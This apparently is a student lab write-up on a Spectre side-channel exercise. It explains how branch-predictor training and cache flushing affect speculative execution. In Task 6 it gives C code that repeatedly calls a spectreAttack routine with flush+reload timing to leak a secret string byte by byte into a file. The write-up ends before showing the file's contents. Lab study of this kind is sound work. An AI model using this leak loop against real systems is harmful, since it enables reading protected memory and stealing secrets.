

# Task 3

In task 3 the SpectreExperiment.c program was used to cause an out-of-order execution. The CPU was trained to assume x < size as true so that line 2 (_array[97 * 4096 + DELTA]_) is executed even if the if condition isn't verified. When the script was executed this proved to be true since the key array was present in the cache.
Consequently, the line marked with a star (_\_mm\_clflush(&size);_) was commented. This line flushes variable _size_ from memory and causes the cpu to take longer in the retrieval of its value. This caused the attack to not succeed, the value was not flushed so the cpu could retrieve _size_ and didn't have the need to assume its value as larger than x.
astly, line 4 (_victim(i);_) was replace with _victim(i + 20)_. This time the CPU wasn't trained to assume the if condition (_if (x < size)_) as true. This causes line 2 (_temp = array[x * 4096 + DELTA]_) to not be executed and the array to not be stored in cache.

# Task 6

To reveal the secret value, the following code was used to print all the characters of the secret string to the file _secret.txt_. 

```
int main() {
    FILE *fp;
    fp = fopen("secret.txt", "w+");
    int i;
    uint8_t s;
    size_t index_beyond = (size_t)(secret - (char*)buffer);
    for(int m = 0; m < strlen(secret); m++) {
	flushSideChannel();
        for(i=0;i<256; i++) scores[i]=0;
	for (i = 0; i < 1000; i++) {
	    printf("*****\n");
	    spectreAttack(index_beyond + m);
	    usleep(10);
	    reloadSideChannelImproved();
	}
        int max = 1;
	for (i = 1; i < 256; i++){
	    if(scores[max] < scores[i]) max = i;
	}
	//fprintf(fp, "Reading secret value at index %ld\n", index_beyond);
	fprintf(fp, "%c", max, max);
	//fprintf(fp, "The number of hits is %d\n", scores[max]);
    }
    return 0;
}
```

The result was printed to a file because of the need to include line _printf("*****\n")_ which floods the output but it's necessary in order for the attack to succeed.

The file _secret.txt_:

